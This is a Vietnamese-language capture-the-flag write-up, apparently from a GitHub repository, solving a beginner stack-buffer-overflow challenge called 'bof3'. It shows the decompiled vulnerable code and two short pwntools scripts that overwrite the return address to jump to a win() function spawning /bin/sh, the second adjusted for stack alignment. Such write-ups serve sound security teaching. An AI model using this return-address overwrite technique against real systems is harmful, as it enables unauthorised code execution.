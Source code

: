**1. Tìm lỗi**

Dùng lệnh 'file' để kiểm tra

![file.png](photo/file.png)

Là file 64bit nên mở bằng IDA64 ta có source như sau:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[28]; // [rsp+0h] [rbp-20h] BYREF
  int v5; // [rsp+1Ch] [rbp-4h]

  v5 = 0;
  init(argc, argv, envp);
  printf("> ");
  v5 = read(0, buf, 0x30uLL);
  if ( buf[v5 - 1] == 10 )
    buf[v5 - 1] = 0;
  return 0;
}
```

Ngoài ra còn có thêm hàm win

```
int win()
{
  return system("/bin/sh");
}
```

Ta thấy biến buf được khai báo 28 byte nhưng cho phép nhập 0x30 = 48 byte nên nghĩ tới lỗi bof

Dùng lệnh 'checksec' để kiểm tra ta có:

![checksec.png](photo/checksec.png)

Ta thấy canary đang ở trạng thái disabled nên có lỗi bof

**2. Ý tưởng**

Tận dụng lỗi bof để nhập tràn biến buf đến ret rồi chèn địa chỉ hàm win vào

**3. Viết script**

![buf.png](photo/buf.png)

Ta thấy địa chỉ biến buf là: rbp - 0x20 nên khoảng cách từ biến buf đển ret là: 0x20 + 0x8 = 40

![win.png](photo/win.png)

Ta có địa chỉ hàm win là: 0x401249

Ta có script như sau: 

```
from pwn import *

r = process("./bof3")

win = 0x401249
payload = b'a'*40 + p64(win)
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

![error.png](photo/error.png)

Ta thấy đã có lỗi nên debug để kiểm tra

![stack.png](photo/stack.png)

Ta có stack sau khi gửi payload

![chia16.png](photo/chia16.png)

Ta thấy địa chỉ ret không chia hết cho 16 nên chúng ta thử chèn địa chỉ lệnh return trong hàm win

![pwin.png](photo/pwin.png)

Ta thấy địa chỉ của lệnh return bắt đầu từ win + 5 nên có script như sau:

```
from pwn import *

r = process("./bof3")

win = 0x401249
payload = b'a'*40 + p64(win+5)
r.sendline(payload)
r.interactive()
```

--> Lấy flag

![flag.png](photo/flag.png)
